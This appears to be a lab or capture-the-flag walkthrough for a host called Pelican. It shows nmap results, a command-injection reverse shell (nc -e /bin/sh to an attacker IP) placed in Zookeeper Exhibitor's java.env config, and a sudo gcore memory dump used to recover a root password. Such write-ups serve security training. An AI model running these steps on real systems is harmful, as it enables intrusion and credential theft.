






# NMAP

During enumeration we find the following open TCP ports:22,139,445,631,2181,2222,8080,8081,41665

```sh
PORT      STATE SERVICE     REASON  VERSION
22/tcp    open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDssyyACw3AHaTatHhBU1VyBRbKOirrDG8M9IjpJPTf/v8mdIqiXk1HsBdoFZcsmWJVV4OXC7GMcHa+s0tZceTmgGf5TpiCB2yXUYPZre183LjJWM6KQMZVI0LHz9Yd3ji2bdD5jjtVxwnjrdx8GlU1THMGbzZivfSsPF18arMIq3ukYBS09Ov1SIKR4DJ7pjtBRutRBZKI/8/H+uB2u47AQRwbWuVaOmtZyDrfvgL/IqAFRQrbeP1VNQAErzHl8wNuk1vR+yROv0j7smTqoqqc8aB751O63gtBdCvKzpigwFDLyxYuzu8dW1Hh6ZQzaQZgWkw6SZeExAijK7yXSU61
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUPmkVV/Q+iD07j1sFmdFWp7yppofTTgfzAhvMkyGPulIdMDbzFgW/pRAq3R3zZV7aEcWAMfFHgdXfj3W4FUuc=
|   256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPO1eLYoJ0AhVJ5NIDfaSrfUis34Bw5bKMMdFWzHPx0
139/tcp   open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  etbios-ssn syn-ack Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         syn-ack CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
2181/tcp  open  zookeeper   syn-ack Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDssyyACw3AHaTatHhBU1VyBRbKOirrDG8M9IjpJPTf/v8mdIqiXk1HsBdoFZcsmWJVV4OXC7GMcHa+s0tZceTmgGf5TpiCB2yXUYPZre183LjJWM6KQMZVI0LHz9Yd3ji2bdD5jjtVxwnjrdx8GlU1THMGbzZivfSsPF18arMIq3ukYBS09Ov1SIKR4DJ7pjtBRutRBZKI/8/H+uB2u47AQRwbWuVaOmtZyDrfvgL/IqAFRQrbeP1VNQAErzHl8wNuk1vR+yROv0j7smTqoqqc8aB751O63gtBdCvKzpigwFDLyxYuzu8dW1Hh6ZQzaQZgWkw6SZeExAijK7yXSU61
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUPmkVV/Q+iD07j1sFmdFWp7yppofTTgfzAhvMkyGPulIdMDbzFgW/pRAq3R3zZV7aEcWAMfFHgdXfj3W4FUuc=
|   256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPO1eLYoJ0AhVJ5NIDfaSrfUis34Bw5bKMMdFWzHPx0
8080/tcp  open  http        syn-ack Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        syn-ack nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.156.98:8080/exhibitor/v1/ui/index.html
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
41665/tcp open  java-rmi    syn-ack Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2023-12-11T05:55:26-05:00
|_clock-skew: mean: 1h40m01s, deviation: 2h53m15s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 54935/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 44532/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 23026/udp): CLEAN (Timeout)
|   Check 4 (port 14267/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2023-12-11T10:55:25
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

# Port 22 and 2222

The authentication methods on the SSH ports are:

```sh
PORT     STATE SERVICE      REASON
22/tcp   open  ssh          syn-ack
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
2222/tcp open  EtherNetIP-1 syn-ack
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password

```

# SMB 445
```sh
nmap --script "safe or smb-enum-*" -p 445 192.168.156.98 -oA smb
```


# Port 8081 an 8080
We can see in the nmap results a redirect from port 8081 to port 8081.
When following the redirect we clearly can see the zookeeper exhibitor version 1.0



This version has a RCE vulnerabilty: https://www.exploit-db.com/exploits/48654
 
We can follow the steps described in the exploit.
1. go to the config panel
2. Set editing to ‘on’.
3. add the line $(/bin/nc -e /bin/sh <IP> 4444 &) to 'java.env script' in the config panel.
4. Click on submit > all at once > ok.
5. Start nc listener on port 4444



Boom we have a shell as the user charles!




# Privilege Escalation
When running 'sudo -l' we can see that we can run gcore as root.

> Generate core dumps of one or more running programs with process.

Now we need to have a process which we can dump and where passwords are possibly stored in the memory.

This look suitable:





```
sudo gcore 527
```

Now the coredump is made. We can filter human readable strings with the strings program with a minimum of eight characters ( -n 8)

```sh
strings core* -n 8
```

In this we find a password:



Now switch to root!


